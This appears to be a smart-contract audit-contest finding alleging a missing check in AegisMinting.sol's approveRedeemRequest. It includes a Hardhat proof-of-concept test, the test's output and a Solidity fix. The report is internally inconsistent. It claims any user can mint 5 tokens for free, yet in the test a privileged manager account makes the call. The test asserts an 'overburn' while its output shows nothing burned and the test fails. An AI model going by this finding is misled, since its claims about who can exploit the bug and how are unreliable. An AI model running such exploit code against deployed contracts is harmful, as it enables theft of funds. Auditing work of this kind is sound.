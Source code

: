 Blunt Eggplant Shrimp

High

# Attacker will mint 5 tokens for free which steals assets from the contract

### Summary

Missing check on `AegisMinting.sol` allows attacker to mint 5 tokens for free.

https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L315-L358


### Root Cause

In `AegisMinting.sol` there is a missing check on the `approveRedeemRequest` function.

### Internal Pre-conditions

1. Attacker needs to have 90 YUSD.
2. Attacker needs to be a user.

### External Pre-conditions

1. There needs to be enough tokens and YUSD in the contract.
2. The attacker needs to be a user.

### Attack Path

1. The attacker calls `approveRedeemRequest` with 90 YUSD.
2. Attacker mints 5 tokens.
3. Attacker pays zero(0) YUSD.

### Impact

The protocol suffers a loss of 5 tokens. The attacker can repetitively mint 5 tokens using 90 YUSD at will. The contract suffers a substantial loss of funds in the long run.

### PoC

The hardhat test.
Path:= aegis-contracts/test/6_aegis_minting_redeem.spec.ts
```ts
import { ethers } from 'hardhat'
import { loadFixture, time } from '@nomicfoundation/hardhat-network-helpers'
import { expect } from 'chai'

import {
  MAX_BPS,
  FUNDS_MANAGER_ROLE,
  OrderType,
  deployFixture,
  insuranceFundAccount,
  signOrder,
  signOrderByWallet,
  encodeString,
  SETTINGS_MANAGER_ROLE,
  RedeemRequestStatus,
  USD_FEED_ADDRESS,
} from './helpers'

describe('AegisMinting - Critical Logic Bug: Burn > Value on Partial Redeem Approval', () => {
  it('should show YUSD overburn on partial approval (bug reproduction)', async () => {
    const [owner, user] = await ethers.getSigners()

    const {
      aegisMintingContract,
      aegisMintingAddress,
      assetAddress,
      assetContract,
      yusdContract,
      aegisConfig
    } = await loadFixture(deployFixture)

    // Setup
    await aegisConfig['whitelistAddress(address,bool)'](user.address, true)
    await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner.address)
    await yusdContract.setMinter(owner.address)
    await yusdContract.mint(user.address, ethers.parseEther('100'))
    await yusdContract.setMinter(aegisMintingAddress)
    await yusdContract.connect(user).approve(aegisMintingAddress, ethers.parseEther('100'))

    const requestId = 'burnMismatchTest'
    const fullCollateralAmount = ethers.parseEther('10')
    const yusdAmount = ethers.parseEther('10')
    const redeemOrder = {
      orderType: OrderType.REDEEM,
      userWallet: user.address,
      collateralAsset: assetAddress,
      collateralAmount: fullCollateralAmount,
      yusdAmount: yusdAmount,
      slippageAdjustedAmount: ethers.parseEther('1'),
      expiry: (await time.latest()) + 10000,
      nonce: Date.now(),
      additionalData: encodeString(requestId),
    }
    const signature = await signOrder(redeemOrder, aegisMintingAddress)

    await aegisMintingContract.connect(user).requestRedeem(redeemOrder, signature)

    const partialAmount = ethers.parseEther('5')
    await assetContract.mint(aegisMintingAddress, partialAmount)

    const userYusdBefore = await yusdContract.balanceOf(user.address)
    const userAssetBefore = await assetContract.balanceOf(user.address)

    await expect(
        aegisMintingContract.approveRedeemRequest(requestId, partialAmount)
    ).to.emit(aegisMintingContract, 'ApproveRedeemRequest')

    const userYusdAfter = await yusdContract.balanceOf(user.address)
    const userAssetAfter = await assetContract.balanceOf(user.address)

    const yusdBurned = userYusdBefore - userYusdAfter
    const assetReceived = userAssetAfter - userAssetBefore

    console.log(`Balance of userYusdBefore before: ${ethers.formatEther(userYusdBefore)} YUSD`)
    console.log(`Balance of x userAssetBefore before: ${ethers.formatEther(userAssetBefore)} Asset`)
    console.log(`Balance of userYusdAfter after: ${ethers.formatEther(userYusdAfter)} YUSD`)
    console.log(`Balance of x userAssetAfter after: ${ethers.formatEther(userAssetAfter)} Asset`)
    
    console.log(`YUSD burned: ${ethers.formatEther(yusdBurned)} YUSD`)
    console.log(`Asset received: ${ethers.formatEther(assetReceived)} tokens`)

    // Assertion: user receives fewer assets than proportionate for burned YUSD
    const expectedYusd = ((yusdAmount * partialAmount) / fullCollateralAmount)
    expect(yusdBurned).to.be.gt(expectedYusd, 'User is overburned YUSD for partial collateral')
  })
})
```
*The hardhat test output results*
```log
 npx hardhat test test/6_aegis_minting_redeem.spec.ts


  AegisMinting - Critical Logic Bug: Burn > Value on Partial Redeem Approval
Balance of userYusdBefore before: 90.0 YUSD
Balance of x userAssetBefore before: 0.0 Asset
Balance of userYusdAfter after: 90.0 YUSD
Balance of x userAssetAfter after: 5.0 Asset
YUSD burned: 0.0 YUSD
Asset received: 5.0 tokens
    1) should show YUSD overburn on partial approval (bug reproduction)


  0 passing (546ms)
  1 failing

  1) AegisMinting - Critical Logic Bug: Burn > Value on Partial Redeem Approval
       should show YUSD overburn on partial approval (bug reproduction):

      User is overburned YUSD for partial collateral
      + expected - actual

      -0
      +5000000000000000000
      
      at Context.<anonymous> (test/6_aegis_minting_redeem.spec.ts:84:30)
```

### Mitigation

Update approveRedeemRequest() to compute burnAmount proportionally. You must reduce totalRedeemLockedYUSD by only the proportionYUSD, not the full request amount.
```solidity
uint256 proportionYUSD = (request.order.yusdAmount * amount) / request.order.collateralAmount;

// Take a fee, if applicable
(uint256 burnAmount, uint256 fee) = _calculateInsuranceFundFeeFromAmount(proportionYUSD, redeemFeeBP);

if (fee > 0) {
  yusd.safeTransfer(insuranceFundAddress, fee);
}

request.status = RedeemRequestStatus.APPROVED;
totalRedeemLockedYUSD -= proportionYUSD;

IERC20(request.order.collateralAsset).safeTransfer(request.order.userWallet, collateralAmount);
yusd.burn(burnAmount);

emit ApproveRedeemRequest(
  requestId,
  _msgSender(),
  request.order.userWallet,
  request.order.collateralAsset,
  collateralAmount,
  burnAmount,
  fee
);
```
